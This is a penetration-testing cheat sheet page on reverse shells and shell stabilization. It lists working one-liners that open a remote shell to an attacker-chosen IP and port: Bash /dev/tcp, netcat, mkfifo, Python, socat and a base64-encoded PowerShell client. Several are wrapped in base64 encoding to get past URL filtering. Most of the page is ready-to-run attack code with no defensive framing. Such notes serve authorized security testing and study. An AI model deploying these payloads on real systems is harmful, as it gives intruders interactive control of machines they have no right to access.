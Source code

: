 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Reverse Shells

## Reverse Shells

### Online Reverse Shell Generator

{% embed url="https://www.revshells.com/" %}

### Bash

{% tabs %}
{% tab title="Bash" %}
{% code overflow="wrap" %}
```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
{% endcode %}

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}
{% endtab %}

{% tab title="Base64" %}
We can encode the content in **base64**, to avoid conflicts with symbols and spaces in the URL. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

Generate the payload:

{% code overflow="wrap" %}
```bash
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64 | xargs -I{} echo "echo {}|base64 -d|base64 -d|bash"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python
```
{% endcode %}

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell

{% tabs %}
{% tab title="Base64" %}
Generate the payload:

{% code overflow="wrap" %}
```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le | base64 -w 0 | xargs echo "powershell -e"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Interactive TTY

{% tabs %}
{% tab title="Script" %}
```bash
script -qc bash /dev/null
```
{% endtab %}

{% tab title="Python" %}
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
{% endtab %}
{% endtabs %}

and then run:

```bash
# Press <Ctrl> + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```

#### Automatic Shell Stabilization

This script sets up a handler and automatically stabilizes Linux reverse shells. And for Windows machines uses `rlwrap` to allow command history, CTRL + L to clear the screen and other functions, also preventing CTRL + C from killing the session

{% embed url="https://github.com/NLXZ/pwnc/" %}

```sh
# Add it to your PATH
wget https://raw.githubusercontent.com/NLXZ/pwnc/refs/heads/main/pwnc.sh -O ~/.local/bin/pwnc
chmod +x ~/.local/bin/pwnc
```
